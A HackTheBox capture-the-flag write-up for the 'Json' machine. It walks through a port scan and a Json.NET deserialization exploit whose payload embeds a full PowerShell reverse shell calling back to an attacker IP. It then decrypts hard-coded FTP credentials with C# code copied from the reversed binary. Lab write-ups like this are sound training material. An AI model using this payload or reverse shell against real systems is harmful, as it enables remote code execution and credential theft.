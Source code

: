 ```yaml
---
title: "Json - HackTheBox"
date: 2019-11-04T17:05:46+01:00
tags: []
---
```


As usual, let's start with a port scan:
```
$ nmap -A -T4 10.10.10.158
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 10:11 EST
Nmap scan report for 10.10.10.158
Host is up (0.060s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h00m50s, deviation: 0s, median: 4h00m49s
|_nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:7a:c3 (VMware)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-02-16T19:13:29
|_  start_date: 2020-02-16T04:04:18
```

The server is composed of a login page:
![](/images/hackthebox/json/login.png)

And trying common credentials we find out that `admin:admin` works, but a non
functional web app is behind the login, so there's nothing to do there. An
interesting thing is that a cookie named `OAuth2` gets set, and decoding it's
base64 value we get:

```
{
  "Id": 1,
  "UserName": "admin",
  "Password": "21232f297a57a5a743894a0e4a801fc3",
  "Name": "User Admin HTB",
  "Rol": "Administrator"
}
```

By intercepting the request with Burp we can see that the same value will be
sent in the Bearer HTTP header:
![](/images/hackthebox/json/bearer.png)

Modifying it to a random value will trigger an error:
![](/images/hackthebox/json/error.png)

Using a base64 valid value we get another error:
![](/images/hackthebox/json/json-error.png)

This time we get more information about the backend, it seems like it uses
Json.NET to deserialize the data.

We can use [ysoserial](https://github.com/pwntester/ysoserial.net) to generate
custom payloads to exploit this vulnerability, you can read more about it
[here](https://speakerdeck.com/pwntester/attacking-net-serialization).

As the command that I want to execute contains a lot of characters that needs to
be escaped, I crafted the payload manually by modifing the one found on the
Github page, here is it:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['powershell','-nop -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.10.14.81\',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

It's just a basic reverse shell for Powershell. Save it in a file and after
running a netcat listener, make the request with `curl
http://10.10.10.158/api/Account -H "Bearer: $(base64 -w 0 <filename>)"`.

```
$ rlwrap nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.158
Ncat: Connection from 10.10.10.158:50439.
PS C:\windows\system32\inetsrv> whoami
json\userpool
```

And we have a shell as `userpool`. Let's check if we can read the flag:
```
PS C:\windows\system32\inetsrv> Get-Acl C:\Users\userpool\Desktop\user.txt


    Directory: C:\Users\userpool\Desktop


Path                       Owner                      Access
----                       -----                      ------
user.txt                   JSON\userpool              NT AUTHORITY\SYSTEM Al...
```

## Privilege escalation

While inspecting the files on the drive, I found a curious one in `C:\Program
Files\Sync2Ftp\SyncLocation.exe.config`:
```
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>
```

It looks like we have some encrypted credentials. We can use
[dnSpy](https://github.com/0xd4d/dnSpy) to reverse the `SyncLocation.exe` file
and understand more about how it decrypts the credentials:
![](/images/hackthebox/json/dnspy.png)

Cool, easy and simple! Let's copy the code and modify it a bit:
```csharp
using System;
using System.Text;
using System.Security.Cryptography;
using System.Configuration;

public class Program {
    public static string Decrypt(string cipherString, bool useHashing)
    {
        byte[] array = Convert.FromBase64String(cipherString);
        AppSettingsReader appSettingsReader = new AppSettingsReader();
        string s = "_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%";
        byte[] key;
        if (useHashing)
        {
            MD5CryptoServiceProvider md5CryptoServiceProvider = new MD5CryptoServiceProvider();
            key = md5CryptoServiceProvider.ComputeHash(Encoding.UTF8.GetBytes(s));
            md5CryptoServiceProvider.Clear();
        }
        else
        {
            key = Encoding.UTF8.GetBytes(s);
        }
        TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
        tripleDESCryptoServiceProvider.Key = key;
        tripleDESCryptoServiceProvider.Mode = CipherMode.ECB;
        tripleDESCryptoServiceProvider.Padding = PaddingMode.PKCS7;
        ICryptoTransform cryptoTransform = tripleDESCryptoServiceProvider.CreateDecryptor();
        byte[] bytes = cryptoTransform.TransformFinalBlock(array, 0, array.Length);
        tripleDESCryptoServiceProvider.Clear();
        return Encoding.UTF8.GetString(bytes);
    }

    public static void Main()
    {
        Console.WriteLine(Decrypt("4as8gqENn26uTs9srvQLyg==", true));
        Console.WriteLine(Decrypt("oQ5iORgUrswNRsJKH9VaCw==", true));
    }
}
```

We can use an online compile like [dotnetfiddle](https://dotnetfiddle.net/) and
after running it we get the credentials:
```
superadmin
funnyhtb
```

Using them to login into the FTP server allows us to read the flag:
![](/images/hackthebox/json/root.png)

Thanks for reading!
